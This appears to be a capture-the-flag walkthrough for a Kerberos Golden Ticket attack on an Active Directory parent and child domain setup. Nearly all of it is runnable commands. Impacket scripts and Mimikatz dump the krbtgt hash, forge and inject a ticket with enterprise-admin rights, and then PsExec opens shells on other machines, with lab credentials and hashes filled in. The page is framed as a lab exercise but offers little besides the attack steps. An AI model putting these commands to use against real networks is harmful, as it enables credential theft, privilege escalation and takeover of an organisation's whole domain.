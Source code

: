 # CTF: Golden Ticket Walkthrough

## Attack Scenario

Assume that you have two domains - one parent domain and subordinate domain(s). When you compromise the subordinate domain, you want to access to the parent or/and other domain(s). In this scenario, use a Golden ticket to get an enterprise admin access to the entire domain.&#x20;

## With Kali&#x20;

{% code overflow="wrap" %}
```bash
# Get Domain SID
python lookupsid.py ignite/Administrator:Ignite@987@192.168.1.105

# Get Krbtgt hash & domain name
python secretsdump.py administrator:Ignite@987@192.168.1.105 -outputfile krb -user-status

# Create a Golden Ticket
python ticketer.py -nthash f3bc61e97fb14d18c42bcbf6c3a9055f -domain-sid S-1-5-21-3523557010-2506964455-2614950430 -domain ignite.local raj # random user

# Import it into memory 
export KRB5CCNAME=/root/Tools/impacket/examples/raj.ccache

```
{% endcode %}

## Windows: Access with Golden Ticket now

{% code overflow="wrap" %}
```bash
# Mimikatz

# Extract the “domain Name, SID, krbtgt Hash”,
privilege::debug
lsadump::lsa /inject /name:krbtgt

# Create a Golden Ticket and access to other machines now
kerberos::golden /user:pavan /domain:ignite.local /sid:S-1-5-21-3523557010-2506964455-2614950430 /krbtgt:f3bc61e97fb14d18c42bcbf6c3a9055f /id:500 /ptt

# Get an new command prompt
misc::cmd

# Access to another machine 
PsExec64.exe \\192.168.1.105 cmd.exe
```
{% endcode %}

## Windows: Access with Golden Ticket later

{% code overflow="wrap" %}
```bash
# Create the Golden Ticket and save it as ticket.kirbi
kerberos::golden /user:pavan /domain:ignite.local /sid:S-1-5-21-3523557010-2506964455-2614950430 /krbtgt:f3bc61e97fb14d18c42bcbf6c3a9055f /id:500

# Import the ticket into memory 
kerberos::ptt ticket.kirbi
misc::cmd

# Access to other machines 
PsExec64.exe \\192.168.1.105 cmd.exe
```
{% endcode %}
